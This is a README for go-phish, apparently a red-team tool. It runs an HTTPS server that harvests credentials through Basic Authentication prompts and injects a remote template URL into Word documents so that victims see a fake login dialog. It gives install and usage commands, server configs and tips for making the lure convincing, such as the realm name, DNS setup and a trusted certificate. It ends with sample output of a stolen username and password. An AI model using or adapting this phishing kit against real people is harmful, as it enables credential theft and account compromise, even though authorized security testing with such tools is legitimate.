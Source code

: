 # go-phish

go-phish is a Simple SSL Enabled HTTP server with the primary purpose of phishing credentials via Basic Authentication. 

The power of go-phish is best demonstrated by setting a Word document's template to a go-phish URL. This causes 
Microsoft Word to make a request to the URL, resulting in an Authentication Dialog being shown to the end-user. The
ability to inject any .docx file with a URL is possible using the go-phish's `-url [url]`, `-docx [in .docx]`, and 
`-badocx [out .docx]` options.

### Download
Operating specific packages can be [downloaded from here](https://github.com/ryhanson/go-phish/releases).

### Install
Extract the archive, and optionally, install binary to $PATH

```bash
$ tar -xzvf go-phish*.tar.gz
$ cd go-phish*
$ cp go-phish /usr/local/bin
```

### Usage
```text
$ go-phish --help
                              __    _      __
     ____ _____        ____  / /_  (_)____/ /_
    / __ \/ __ \______/ __ \/ __ \/ / ___/ __ \
   / /_/ / /_/ /_____/ /_/ / / / / (__  ) / / /
   \__, /\____/     / .___/_/ /_/_/____/_/ /_/
  /____/           /_/ 	An SSL Enabled Basic Auth Credential Harvester
                        with a Word Document Template URL Injector

  Start the server  : go-phish -s settings.json -c credentials.json
  Inject a template : go-phish -u https://secure.site.local/docs -i good.docx -o bad.docx

  Options:
    -h, --help      Show usage and exit.
    -v              Show version and exit.
    -s              The JSON settings file used to setup the server. [default: "settings.json"]
    -c              The JSON file to store harvested credentials. [default: "credentials.json"]
    -u              The go-phish URL to use as the Word document template.
    -i              The Word .docx file to inject with a template URL.
    -o              The new Word .docx file with the injected template URL.
```

##### Running the server
Modify the provided settings.json file as needed, by default it should look like this:

```json
{
  "ip": "0.0.0.0",
  "port": "443",
  "sslCert": "server.crt",
  "sslKey": "server.key",
  "basicRealm": "Secure Document Gateway",
  "responseStatus": 200,
  "responseFile": "template.dotx",
  "responseHeaders": [
    ["Content-Type", "application/vnd.openxmlformats-officedocument.wordprocessingml.template"]
  ]
}
```

This setup will start the HTTP server on Port *443* with SSL configured to use *server.crt* and *server.key*. 
The basic authentication realm is set to *Secure Document Gateway*.
When any credentials are provided, a *200* response status is sent along with the contents of the included *template.dotx* and
the content type header: *Content-Type: application/vnd.openxmlformats-officedocument.wordprocessingml.template*.

The settings file may also be configured to output a simple body, by using *responseBody*, like this:

```json
{
  "ip": "0.0.0.0",
  "port": "443",
  "sslCert": "server.crt",
  "sslKey": "server.key",
  "basicRealm": "Secure Document Gateway",
  "responseStatus": 404,
  "responseBody": "<h1>Not Found</h1>",
  "responseHeaders": [
    ["Content-Type", "text/html"]
  ]
}
```

The effectiveness of this tool is based mostly on the Domain and Basic Auth Realm used, as that is often all the end user 
will see when triggered from an Office document. Make sure to point your DNS A Records the public IP of the go-phish server.

It's recommended that the provided cert is replaced with a trusted one, such as one generated with 
[LetsEncrypt](https://github.com/certbot/certbot). Microsoft Word on OS X will prevent the auth dialog if the cert is invalid.

Once the server is configured and running, all you need to do is embed a go-phish URL in a document, or anywhere
else your heart desires. go-phish does give you the ability to inject your URL into a Word document as a template, 
instructions on how to do this can be found below.

##### Injecting a Word Document
To inject a Word document with a template URL, you'll need a .docx file and the go-phish server URL.

Now run go-phish with your document and URL:

```text
$ go-phish -url https://secure.site.local/docs -docx good.docx -badocx bad.docx
[+] Opening Word document: good.docx
[+] Setting Word document template to: https://secure.site.local/docs
[+] Saving injected Word document to: bad.docx
[*] Injected Word document has been saved!
```

Make sure your go-phish server is running and available at the URL you used. Now when the Word document
is opened, the victim will be prompted with an authentication dialog.

Now when the victim opens the document, you'll see the following:

```text
$ ./go-phish
[+] Credential store initialized at: credentials.json
[+] Starting HTTPS Auth Server on: 0.0.0.0:443
[*] Request Received at 2016-09-25 01:06:28: HEAD https://secure.site.local/docs
[*] Sending Basic Auth response to: 127.0.0.1
[*] New credentials harvested!
[HTTP] Host        : secure.example.local
[HTTP] Request     : /docs
[HTTP] User Agent  : Microsoft Office Word
[HTTP] IP Address  : 127.0.0.1
[AUTH] Username    : john.doe
[AUTH] Password    : Summer15
```
